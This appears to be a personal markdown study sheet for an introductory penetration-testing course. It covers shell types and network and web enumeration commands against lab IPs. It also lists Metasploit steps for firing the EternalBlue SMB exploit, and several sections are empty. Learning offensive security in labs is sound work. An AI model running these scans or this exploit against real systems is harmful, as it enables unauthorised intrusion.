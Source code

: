 ***

### Risk Management Process

- Identify the risk
- Analyze the risk
- Evaluate the risk
- Dealing with the risk
- Monitoring Risk 

---

### Common Terms

- **Reverse Shell:** Initiates a connection back to a "Listener" on our attack box
- **Bind Shell:** "Binds" to a specific port on the target host and waits for a connection from our attack box.
- **Web Shell:** Runs OS commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e. leveraging a file upload vulnerability and uploading a PHP script to run a single command)

---

### Basic Tools

- **[Reverse Shell](https://github.com/besimorhino/powercat):** Windows alternative to `netcat` coded in PowerShell called **PowerCat**
- **[Socat](https://linux.die.net/man/1/socat):** It has a few features that `natcat` does not support, like forwarding ports and connecting to serial devices.
	- It can also be used to [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat) 
	- [Standalone Binary](https://github.com/andrew-d/static-binaries) of `Socat` can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection.

---

### Service Scanning

- Port 0 is a reserved port and is "Wild Card" port
- Ports 1 - 1023 are reserved for privileged services
- `nmap 10.129.42.254` by default performs a TCP scan
	- `-sC`: nmap scripts will be used to obtain more detailed information
	- `-sV`: Performs a version scan (service protocol, application name, version)
	- `-p-`: Scan all ports
- **Banner Grabbing**
	- `namp -sV --script=banner <target>`
	- `nmap -sV --script=banner -p21 10.10.10.0/24`
	- ``nc -nv 10.129.42.253 21``
- **FTP**
	- `ftp -p 10.129.42.253`
- **SMB**
	- `nmap --script smb-os-discovery.nse -p445 10.10.10.40`
	- `nmap -A -p445 10.129.42.253`
	- **Shares**
		- `smbclient -N -L \\\\10.129.42.253`
			- `-N`: Suppress the password prompt
			- `-L`: List the available shares on the remote host
		- `smbclient \\\\10.129.42.253\\users`
		- `smbclient -U bob \\\\10.129.42.253\\users`
- **SNMP**
	- Community strings provide information and statistics about router or device.
	- The manufacturer default community strings of `public` and `private` are often unchanged.
	- `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`
	- `snmpwalk -v 2c -c private 10.129.42.253`
	- [onesixtyone](https://github.com/trailofbits/onesixtyone) can be used to brute force the community string names using a dictionary file of community strings such as the `dict.txt` file.
		- `onesixtyone -c dict.txt 10.129.42.254`

---

### Web Enumeration

- [ffuf](https://github.com/ffuf/ffuf) and [GoBuster](https://github.com/OJ/gobuster) can be used for directory enumeration
	- `gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
- **DNS Subdomain Enumeration**
	- `git clone https://github.com/danielmiessler/SecLists`
	- `sudo apt install seclists -y`
	- Next add a DNS server such a `1.1.1.1` to the `/etc/resolv.conf`
	- `gobuster dns -d inlanefreight.com -w /usr/share/seclists/Discovery/DNS/namelist.txt`
- We can user `cURL` to retrieve server header information
	- `curl -IL https://www.inlanefreight.com`
- [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
- `whatweb <target ip>` can be used to extract the version of web servers, supporting frameworks, and applications.
	- `whatweb --no-errors <target ip>`

---

### Public Exploits

- The `searchsploit` tool can be used to search for public vulnerabilities/exploits for any application.
	- `sudo apt install exploitdb -y`
	- `searchspolit openssh 7.2` 
	- We can also use the online exploit database to search for vulnerabilities:
		- [Exploit DB](https://www.exploit-db.com/)
		- [Rapid7 DB](https://www.rapid7.com/db/)
		- [Vulnerability Lab](https://www.vulnerability-lab.com/)
	- We can also use `metasploit` to search for exploits and use the exploits against vulnerable targets.
		- `msfconsole`
		- `search exploit eternalblue`
		- `use exploit/windows/smb/ms17_010_psexec`
		- `show options`
		- `set LHOST tun0`
		- `set RHOST 10.10.10.10`
		- `check`: can be used to check if the server is vulnerable
		- `run` or `exploit`

---

### Types Of Shells


---

### Privilege Escalation


---

### Transferring Files
